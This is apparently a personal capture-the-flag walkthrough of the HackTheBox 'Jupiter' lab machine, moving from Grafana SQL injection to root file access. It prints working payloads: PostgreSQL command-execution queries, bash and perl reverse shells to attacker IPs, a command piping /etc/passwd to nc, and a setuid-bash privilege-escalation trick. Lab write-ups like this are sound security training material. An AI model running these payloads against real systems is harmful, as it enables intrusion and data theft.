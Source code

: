 # Jupiter

### Reconnaissance

- port 22 SSH OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
- port 80 HTTP nginx 1.18.0 (Ubuntu)

Subdomain enumeration found kiosk subdomain, a grafana dashboard.

/api/ds/query is vulnearble to sql injection

found user grafana_viewer

PostgreSQL version 14.8 (Ubuntu 14.8-0ubuntu0.22.04.1)

Tried dumping the moons DB but contains 160+ entries so very time consuming and ultimately useless. Used the 
following write ups to discover the PostgreSQL RCE query:

[HTB Jupiter write up](https://prathapilango.medium.com/jupiter-hackthebox-machine-writeup-2023-c2ee66cbfe0b)
[HTB-Jupiter](https://sawmj.github.io/posts/HTB-Jupiter/)

### Exploitation

Reverse shell through SQL query as postgres user

**pentest monkey PosgreSQL cheatsheet**

`CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS ‘/lib/libc.so.6’, ‘system’ LANGUAGE ‘C’ STRICT; SELECT system(‘cat /etc/passwd | nc 10.0.0.1 8080’);`

**Write-up payloads**

`CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'bash -c \"bash -i >& /dev/tcp/10.10.14.x/4444 0>&1\"'`

```
CREATE TABLE files(cmd_output text);

COPY files FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,\"10.10.16.67:1339\");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';

-- Note the backslash to escape the double quote to be a correct format of JSON
```

Privesc to juno through network-simulation.yml file in /dev/shm, found with pspy

Edit server and host processes values in network-simulation.yml to create a bash binary with juno's 
permissions

```
# server
/usr/bin/cp /bin/bash /tmp/bash

#host
/usr/bin/chmod u+s /tmp/bash 
```

Add an ssh key with ssh-keygen or use the shadow-simulation.sh to get a reverse shell to access the user.txt
file as a member or the juno group

As juno check for files owned by jovian

`find / -user jovian 2>/dev/null`

This shows the /opt/solar-flare directory containing logs for the locally hosted jupyter notebook

Use ssh or chisel to access the jupyter notebook

`ssh -L 8888:127.0.0.1:8888 -i juno_id_rsa juno@10.10.11.216`

In the log files there are links to the notebook containing the access token

Use a new notebook to gain a reverse shell as jovian

`import os;os.system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/4444 0>&1'")`

Running `sudo -l` as jovian shows we have sudo access to `/usr/local/bin/sattrack`

When we execute sattrack it complains about a missing config file, use strings and grep to find references:

`strings /usr/local/bin/sattrack | grep config`

We find `/tmp/config.json` as a result. Searching for config.json shows a location of an example config file
at `/usr/local/share/sattrack/config.json`

Changing the `tlesources` to `file://path/to/file` gives us read access to root files
